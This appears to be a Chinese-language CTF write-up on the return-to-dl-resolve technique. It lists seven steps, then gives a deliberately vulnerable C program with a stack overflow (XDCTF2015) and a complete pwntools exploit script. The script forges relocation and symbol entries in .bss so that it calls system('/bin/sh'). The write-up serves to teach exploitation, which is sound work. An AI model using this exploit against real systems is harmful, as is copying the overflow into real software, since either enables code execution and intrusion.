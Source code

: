 # Return-to-dl-resolve
&#8195;参加大佬的讲解，非常非常的详细！！！这里简单总结为如下的内容，主要需要了解动态重定向的过程。其实感觉这样一步一步的fake，貌似还更容易理解
1、通过栈溢出，构造rop，向bss段某位置写入数据
2、将栈地址改向bss段
3、写入正常的shellcode，使用write输出‘/bin/sh’（通过write plt）
4、修改为通过plt 0，给出reloc的偏移
5、构造假的重定向表，给出在动态链接符号表中的偏移
6、构造假的dynsym，给出在字符串表中的偏移
7、构造所需函数的字符串名字，改变参数


## vuln code
```
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

## exp
from pwn import *
import time,sys,binascii

elf_name = "./bof"
elf = ELF(elf_name)

io = process( elf_name )
gdb.attach(io, "b *0x08048535")

write_plt = elf.plt['write']
read_plt = elf.plt['read']
write_got = 0x0804A020

bss_addr = 0x0804a040
stack_size = 0x800
bss_stage = bss_addr + stack_size

ppp_ret = 0x080485cc
pop_ebp_ret = 0x080485ce
leave_ret = 0x08048468
#write_offset = 0x28

payload1 = 'a' * 112
payload1 += p32(read_plt)
payload1 += p32(ppp_ret)
payload1 += p32(0)
payload1 += p32(bss_stage)
payload1 += p32(0x100)
payload1 += p32(pop_ebp_ret)
payload1 += p32(bss_stage)
payload1 += p32(leave_ret)
payload1 += 'a' * (0x100 - len(payload1))
io.send(payload1)

dynsym = 0x080481d8
dynstr = 0x08048278

plt_0 = 0x08048390  #objdump -d -j .plt bof
rel_plt = 0x08048330 # objdump -s -j .rel.plt bof
r_index = (bss_stage + 28) - rel_plt

align = (0x10 - (bss_stage + 36 - dynsym) & 0xf)
fake_sym_addr = bss_stage + 36 + align
sym_index = (fake_sym_addr - dynsym) / 0x10

r_offset = write_got
r_info = (sym_index << 8) | 0x7
fake_reloc = p32(r_offset) + p32(r_info)

str_addr = fake_sym_addr + 0x10
str_offset = str_addr - dynstr
fake_sym = p32(str_offset) + p32(0x0) + p32(0x0) + p32(0x12)


cmd = '/bin/sh'
payload2 = 'aaaa'
payload2 += p32(plt_0)
payload2 += p32(r_index)
payload2 += 'aaaa'
payload2 += p32(bss_stage + 0x80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc
payload2 += 'a' * align
payload2 += fake_sym
payload2 += 'system' + '\x00'
payload2 += 'a' * (0x80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'a' * (0x100 - len(payload2))

io.send(payload2)

io.interactive()
